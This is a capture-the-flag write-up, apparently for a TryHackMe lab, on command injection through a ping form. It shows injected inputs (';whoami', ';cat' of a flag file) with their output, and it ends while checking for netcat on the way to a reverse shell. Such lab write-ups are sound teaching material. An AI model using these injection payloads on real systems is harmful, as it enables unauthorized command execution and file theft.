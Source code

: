 Find the contents of the flag located in /home/tryhackme/flag.txt. You can use a variety of payloads to achieve this – I recommend trying multiple.

### Questions

 What user is this application running as? 

 So seeing that I can enter `localhost` and it still resolves to 127.0.0.1 I know that the app doesn't just take numbers as input, so I can use a semicolon to signify to the server that I want to run an additional command. If I want to see who I am running as I can add `;whoami` and since is verbose command injection I should get the output of whoami after the output of ping:

 ```
Here is your command: 127.0.0.1;whoami

Output:
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data. 64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.016 ms 64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.031 ms 64 bytes from 127.0.0.1: icmp_seq=3 ttl=64 time=0.032 ms 64 bytes from 127.0.0.1: icmp_seq=4 ttl=64 time=0.030 ms --- 127.0.0.1 ping statistics --- 4 packets transmitted, 4 received, 0% packet loss, time 3080ms rtt min/avg/max/mdev = 0.016/0.027/0.032/0.006 ms www-data 
 ```
so the answer is www-data


 What are the contents of the flag located in /home/tryhackme/flag.txt?

 Next lets see if I can get the contents using the same technique:

 ```
 Here is your command: localhost;cat /home/tryhackme/flag.txt

Output:
PING localhost (127.0.0.1) 56(84) bytes of data. 64 bytes from localhost (127.0.0.1): icmp_seq=1 ttl=64 time=0.015 ms 64 bytes from localhost (127.0.0.1): icmp_seq=2 ttl=64 time=0.030 ms 64 bytes from localhost (127.0.0.1): icmp_seq=3 ttl=64 time=0.031 ms 64 bytes from localhost (127.0.0.1): icmp_seq=4 ttl=64 time=0.033 ms --- localhost ping statistics --- 4 packets transmitted, 4 received, 0% packet loss, time 3078ms rtt min/avg/max/mdev = 0.015/0.027/0.033/0.007 ms THM{COMMAND_INJECTION_COMPLETE} 
```

and bingo we get the flag


## Conclusion

Okay so they are asking for other ways to get that last flag, the most fun way in my opinion is to see if we can get the server to send us a reverse shell. First lets see if netcat is on the server:

```
Here is your command: 127.0.0.1;which nc

Output:
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data. 64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.016 ms 64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.030 ms 64 bytes from 127.0.0.1: icmp_seq=3 ttl=64 time=0.030 ms 64 bytes from 127.0.0.1: icmp_seq=4 ttl=64 time=0.030 ms --- 127.0.0.1 ping statistics --- 4 packets transmitted, 4 received, 0% packet loss, time 3062ms rtt min/avg/max/mdev = 0.016/0.026/0.030/0.006 ms /usr/bin/nc 
```
